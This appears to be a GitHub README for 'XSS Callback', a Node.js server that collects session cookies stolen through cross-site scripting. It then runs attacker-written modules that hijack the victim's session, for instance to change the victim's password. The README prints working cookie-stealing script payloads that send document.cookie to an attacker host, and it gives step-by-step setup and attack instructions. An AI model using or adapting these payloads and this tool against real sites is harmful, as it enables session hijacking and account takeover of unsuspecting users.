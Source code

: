 ### XSS Callback

XSS Callback is a tool allowing you to exploit XSS vulnerabilities.

This is a HTTP Server (developed in Node.js) that is listening on a specific port (defined when launching it).
Everytime a victim will load the malicious link with his own cookie, the server will automatically launch the *offensive* module that you've written. 

**Example of module :**

*After getting the user's cookie :*
- Send a request to change his password
- Log him out

When the victim will load the malicious site wich such URL : 

```
http://malicious.com/cookie/<my-cookie>
```

This 'event' will trigger the exploit function in your custom module. 


### Basic exploitation of XSS 

One common way to exploit those flaws is to create a PHP file/CGI script that will harvest victim's cookies and collect them in some file/database. 

Example of those basic payload : 
```
<script>document.location='http://malicious.com/cookie.php?cookie='+document.cookie</script>
```

Then, the attacker will be able to re-use those information to hijack victim's session. Ok. 
<br />

### What to do with XSS Callback ? 

Instead of reading your file for victim's cookie, XSS Callback is doing **your** job by calling your *offensive* module,  dynamically loaded when starting the App. 

You just need to write your own module corresponding to the application you want to target and launch the application to be accessible from the outside. (On your server)

You don't have to wait and read a file anymore. You perform the attack directly when you receive some data on this specific URL. 
This is the concept of *event driven programming*. 
### Installation

Just clone the project : 
```
git clone git@github.com:PaulSec/XSS-Callback.git
```

Go in the directory and launch the application for the usage : 

```
cd XSS-Callback && node server.js
```

Usage is then displayed : 

```
Usage : node server.js <module.js> <port : default 8080>
```
### Use case


#### 1) Find a XSS

Ok, you got it! 

#### 2) Write your (offensive) module

Create your module in the folder ```module```.

The cookie of the victim is stored in the variable : ```req.params.cookie```. 

#### 3) Launch XSS Callback : 

On malicous.com, launch the tool : 

```
node server.js ./module/my-module.js 8080
```

#### 4) Insert your payload
Insert your payload on the website : 

```
<script>document.location='http://malicious.com:8080/cookie/'+document.cookie</script>
```

#### 5) Check the console log
You can see clients loading your page through the XSS, while your module is processing the attack using your victim's session. 
<br />
### License & Conclusion

Tool released under MIT License. 
Feel free to give your feedback, ask for new features for this tool. 
Moreover, if you need an example of how to write a module, don't hesitate. 

